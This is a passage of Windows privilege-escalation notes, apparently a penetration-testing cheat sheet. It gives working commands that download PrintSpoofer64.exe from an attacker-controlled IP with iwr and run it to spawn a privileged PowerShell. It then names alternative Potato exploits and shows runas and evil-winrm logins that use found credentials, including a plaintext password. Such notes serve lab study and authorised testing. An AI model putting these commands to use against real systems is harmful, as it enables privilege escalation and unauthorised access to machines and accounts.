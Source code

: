 ```
iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

Run PrintSpoofer:

```
.\PrintSpoofer64.exe -i -c powershell.exe
```

Other similar tools include RottenPotato, SweetPotato, or JuicyPotato.

## General Escalation Commands with Found Creds

Using Runas to get command prompt as different user:

```
runas /user:backupadmin cmd
```

Using EvilWinRM to get command prompt as user:

Instead those same credentials may also be used with WinRM:

```
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```

